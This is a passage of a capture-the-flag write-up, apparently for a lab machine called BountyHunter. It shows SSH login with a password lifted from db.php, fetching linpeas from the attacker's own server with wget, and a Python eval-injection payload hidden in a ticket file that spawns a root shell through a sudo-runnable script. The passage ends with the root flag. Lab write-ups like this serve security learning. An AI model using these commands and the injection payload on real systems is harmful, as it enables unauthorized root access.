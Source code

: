 ```
```


![[db_php.png]]

now we have credentials let's try to access server with use we find /etc/passwd file and password we found 
from db.php file.

```
ssh development@10.129.98.250 

pass :m19RoAU0hP41A1sTsq6K
```

## Privilege Escalation
let's upload [linpeas]('https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS') and look if we can get any privilege escalation point to root or other user.

```
# Run Python Server
python3 -m http.server 80

# Get Linpeas 
wget http://10.8.199.191/linpeas.sh

# Run Linpeas
chmod +x linpeas.sh
./linpeas.sh

```

![[linpeas.png]]

we found that we can run this file without root password. so let's go and exploit this vulnerability.
![[previlege.png]]

after read algorithm of the file i create this payload to get root shell.

exploit.md
```python
# Skytrain Inc   
## Ticket to root  
__Ticket Code:__  
**11+100==111 and exec("import pty; pty.spawn(\"/bin/sh\")")

```

let's run this file and get root shell.

```
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/home/development/exploit.md
Destination: root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
c4920fb496c6b325d2ff3c5a692f568b

```
